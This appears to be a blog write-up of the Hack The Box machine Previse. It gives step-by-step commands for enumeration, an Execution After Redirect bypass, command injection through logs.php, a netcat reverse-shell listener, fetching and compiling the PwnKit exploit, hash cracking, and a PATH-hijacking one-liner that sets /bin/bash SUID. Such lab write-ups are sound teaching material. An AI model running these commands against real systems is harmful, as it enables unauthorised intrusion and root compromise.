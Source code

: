 ```yaml
---
layout: single
title: Previse - Hack The Box
excerpt: "Previse is a easy machine that showcases Execution After Redirect (EAR) which allows users to retrieve the contents and make requests to `accounts.php` whilst unauthenticated which leads to abusing PHP 'exec()' function since user inputs are not sanitized allowing remote code execution against the target, after gaining a www-data shell privilege escalation starts with the retrieval and cracking of a custom MD5Crypt hash which consists of a unicode salt and once cracked allows users to gain SSH access to the target then abusing a sudo executable script which does not include absolute paths of the functions it utilises which allows users to perform PATH hijacking on the target to compromise the machine."
date: 2025-06-03
classes: wide
header:
  teaser: /img2/previse.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Web Enumeration
  - Execution After Redirect (EAR) Vulnerability - Skipping Redirects
  - PHP Source Code Analysis
  - Command Injection (RCE)
  - Information Leakage
  - Database Enumeration
  - Cracking Hashes
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - Abusing Sudoers Privilege + PATH Hijacking [Privilege Escalation] (OPTION 2)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.104
```

![](/img2/Pasted%20image%2020250603093249.png)

- Dirsearch

```bash
dirsearch -u 10.10.11.104
```

![](/img2/Pasted%20image%2020250603100111.png)

- Intercept accounts.php request and check it

![](/img2/Pasted%20image%2020250603100247.png)

> Before redirection, we can do a request to accounts.php, so let's create a valid request with POST method.

## Exploitation

- Execution After Redirect (EAR) Vulnerability - Skipping Redirects

![](/img2/Pasted%20image%2020250603100445.png)

- Download backup zip

![](/img2/Pasted%20image%2020250603100646.png)

- Check php source code

![](/img2/Pasted%20image%2020250603112333.png)

> In logs.php we can try to inject command when python execute /opt/scripts/log_process.py.

```bash
/usr/bin/python /opt/scripts/log_process.py space;whoami
```

- RCE

![](/img2/Pasted%20image%2020250603112629.png)

```bash
tcpdump -i tun0 icmp
```

![](/img2/Pasted%20image%2020250603112831.png)

- Reverse shell

![](/img2/Pasted%20image%2020250603113153.png)

```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find sudoers 

```bash
find / -perm -4000 2>/dev/null
```

![](/img2/Pasted%20image%2020250603124208.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Connect to database with leaked credentials

![](/img2/Pasted%20image%2020250603114431.png)

> We can see the password and database inside config.php on backup folder

```bash
mysql -u root -p
```

- Crack MD5 hash

![](/img2/Pasted%20image%2020250603122541.png)

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250603122614.png)

- Connect to ssh

```bash
ssh m4lwhere@10.10.11.104
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250603122903.png)

- PATH Hijacking

```bash
cat /opt/scripts/access_backup.sh
```

![](/img2/Pasted%20image%2020250603123315.png)

```bash
cd /tmp && export PATH=/tmp/:$PATH && echo "chmod u+s /bin/bash" > gzip && chmod +x gzip && && sudo /opt/scripts/access_backup.sh
```

```bash
ls -l /bin/bash
```

![](/img2/Pasted%20image%2020250603123632.png)

```bash
bash -p
```


![](/img2/Pasted%20image%2020250603123055.png)